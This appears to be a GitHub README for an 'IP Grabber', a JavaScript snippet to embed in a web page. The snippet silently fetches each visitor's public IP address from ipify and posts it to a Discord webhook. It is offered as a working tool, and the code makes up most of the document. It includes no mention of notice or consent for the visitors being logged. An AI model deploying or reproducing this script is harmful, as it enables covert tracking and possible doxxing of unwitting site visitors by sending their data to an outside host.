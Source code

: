 <h1 align="center">IP Grabber</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Status-Active-success?style=flat-square&logo=github" alt="Status">
  <img src="https://img.shields.io/github/license/your_username/your_repo?style=flat-square" alt="License">
</p>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file:

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK_HERE', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>
